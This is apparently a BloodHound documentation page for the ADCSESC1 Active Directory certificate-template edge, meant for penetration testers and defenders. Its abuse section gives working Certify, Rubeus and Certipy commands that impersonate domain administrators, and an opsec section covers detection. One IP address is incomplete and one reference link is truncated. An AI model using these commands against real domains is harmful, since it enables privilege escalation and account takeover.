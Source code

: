 ---
title: ADCSESC1
description: "This edge indicates that the principal has permission to enroll on one or more certificate templates, allowing them to specify an alternate subject name and use the certificate for authentication. They also have enrollment permission for an enterprise CA with the necessary templates published."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


This enterprise CA is trusted for NT authentication in the forest, along with the certificate chain up to the root CA certificate. This setup lets the principal enroll certificates for any AD forest user or computer, enabling authentication and impersonation of any AD forest user or computer without their credentials.

## Abuse Info

### Windows

Step 1: Use Certify (2.0) to request enrollment in the affected template, specifying the affected certification authority and target principal to impersonate:

```bash
Certify.exe request --ca rootdomaindc.forestroot.com\forestroot-RootDomainDC-CA --template ESC1 --upn ForestRootDA --sid S-1-5-21-2697957641-2271029196-387917394-500
```

The issued certificate (PFX) is printed to the console in base64 form. Copy the full base64 blob (including BEGIN/END lines) for the next step.

Step 2: With Rubeus, use the base64-encoded certificate to authenticate to the domain and request a TGT, specifying the identity you intend to impersonate:

```bash
Rubeus asktgt /user:ForestRootDA /domain:forestroot.com /certificate:<cert base64> /ptt
```

Step 3 (optional): Verify the TGT by listing it with klist:

```bash
klist
```

### Linux

 Step 1: Use Certipy to request enrollment in the affected template, specifying the target
enterprise CA and target principal to impersonate:

```bash
 certipy req -u john@corp.local -p Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC1 -upn administrator@corp.local
```

Step 2: Request a ticket granting ticket (TGT) from the domain, specifying the certificate
created in Step 1 and the IP of a domain controller:

```bash
certipy auth -pfx administrator.pfx -dc-ip 172.16.12
```
## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy
of that certificate in its issued certificates store. Defenders may analyze those issued certificates to
identify illegitimately issued certificates and identify the principal that requested the certificate, as
well as the target identity the attacker is attempting to impersonate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* [Certipy](https://github.com/ly4k/Certipy)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1)
* https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-certificate-ser
